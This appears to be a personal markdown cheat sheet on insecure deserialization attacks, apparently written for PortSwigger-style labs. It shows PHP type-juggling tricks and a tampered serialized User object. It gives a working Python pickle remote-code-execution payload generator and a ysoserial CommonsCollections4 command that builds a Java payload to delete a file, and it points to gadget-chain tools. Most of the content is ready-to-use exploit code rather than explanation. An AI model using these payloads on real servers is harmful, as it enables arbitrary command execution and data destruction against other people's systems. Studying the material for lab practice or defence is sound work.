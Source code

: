 # #php

**v7 and earlier**:
`0 == 'whaterver'`
evalutes to true

*including 8 version*:
`5 == '5 whatever';`

Serialized object example:
`O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}`

# #python #pickle
#RCE:
```python
import pickle
import base64
import os

class BlindRCE:
    def __reduce__(self):
        cmd = ('cp /app/flag.txt /app/application/static/flag.txt')
        return os.system, (cmd, )

i = BlindRCE()
m = pickle.dumps(i)
b = base64.b64encode(m).decode()
print(b)
```
# Gadget chains
A "gadget" is a snippet of code that exists in the application that can help an attacker to achieve a particular goal. 

### Working with pre-built gadget chains

#### ysoserial - tool for payload creation for java deserialization
https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar

Example of usage on #java v21:O
```bash
java \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   -jar ./ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
Creates malicious serialized data that executes arbitrary command.
Payloads:
* `URLDNS` - performs DNS lookup
* `JRMPClient` is another universal chain that you can use for initial detection. It causes the server to try establishing a TCP connection to the supplied IP address. Note that you need to provide a raw IP address rather than a hostname. This chain may be useful in environments where all outbound traffic is firewalled, including DNS lookups. You can try generating payloads with two different IP addresses: a local one and a firewalled, external one. If the application responds immediately for a payload with a local address, but hangs for a payload with an external address, causing a delay in the response, this indicates that the gadget chain worked because the server tried to connect to the firewalled address. In this case, the subtle time difference in responses can help you to detect whether deserialization occurs on the server, even in blind cases.

#### PHP Generic Gadget Chains
```bash
git clone https://github.com/ambionics/phpggc
```

# Creating your own exploit
#to-be-continued https://portswigger.net/web-security/deserialization/exploiting